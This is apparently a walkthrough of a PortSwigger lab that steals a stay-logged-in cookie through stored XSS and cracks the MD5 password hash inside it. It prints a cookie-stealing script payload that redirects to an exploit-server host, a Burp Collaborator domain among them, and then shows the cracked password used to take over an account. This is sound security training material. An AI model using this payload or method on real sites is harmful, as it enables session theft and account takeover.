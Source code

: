 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/57ceb379-1f73-49cc-9651-0c44194f9d0c)

## Overview :

n some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption. 

## Solution :

As in the previous lab, enter credentials and log in as wiener to see how the functionality works.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/24a0a8bb-34db-4812-b4a1-4d7c9d6520b5)

The first request sent has a **stay-logged-in=on** parameter.

```http
POST /login HTTP/1.1
Host: 0a6800840372b3ee800626ca00f300e7.web-security-academy.net
Cookie: session=JaemGLTk3kt9fqbpfjJnhTFLSsqRTclh; stay-logged-in=
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a6800840372b3ee800626ca00f300e7.web-security-academy.net
Referer: https://0a6800840372b3ee800626ca00f300e7.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=wiener&password=peter&stay-logged-in=on
```

The second subsequent request contains the **stay-logged-in** cookie.

```http
GET /my-account HTTP/2
Host: 0a6800840372b3ee800626ca00f300e7.web-security-academy.net
Cookie: session=AAZV3xRtr0zTn9mIeTlqYZkjm6WqeVMK; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a6800840372b3ee800626ca00f300e7.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Once sucessfully logged in , we get this page, where we have delete account option as well with the update email option.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4c009482-9fa7-4f65-93bd-26c56606b143)

Examining the stay-logged-in cookie parameter in  *Inspector tab* reveals that it is *base64 encoded form of the username & password hash*

> base64{wiener:MD5(password)}

where, the password hash is of MD5 format.

The lab says that the **Comment functionality is vulnerable to XSS**. So we will enter a stored XSS payload in the comment section,

```js
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```
I used burp collaborator as my exploit server - `ufd94gqjd9x3d2k4tmycsjuec5iv6k.oastify.com`


<script>document.location='//ufd94gqjd9x3d2k4tmycsjuec5iv6k.oastify.com/'+document.cookie</script>

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6f3a3ae1-8499-4c02-aed5-69aaa7cb5b94)

After we post comment, we get a *Thank you* response

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/30f47f7f-47ad-4204-9588-249eaff760f9)

Now if we go and click `Poll now` in burp collaborator , we see that there were few request made to our server.

In one of the *HTTP* requests, we get the stay-logged-in cookie of the victim user - `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cb0fcfa0-ebea-4ae0-a2b3-beb5017c7df2)

It is the base64 encoded form of user carlos and his MD5 hash of his password. - `carlos:26323c16d5f4dabff3bb136f2460a943`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4716f8e8-a4f8-4be0-8c9f-b2d5aaff03e2)

Using online MD5 decoders, we can easily find the password of carlos - `onceuponatime`

Now we can log in as carlos & delete the account to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b56dbb4a-a0b1-435e-8264-05ceab685f97)



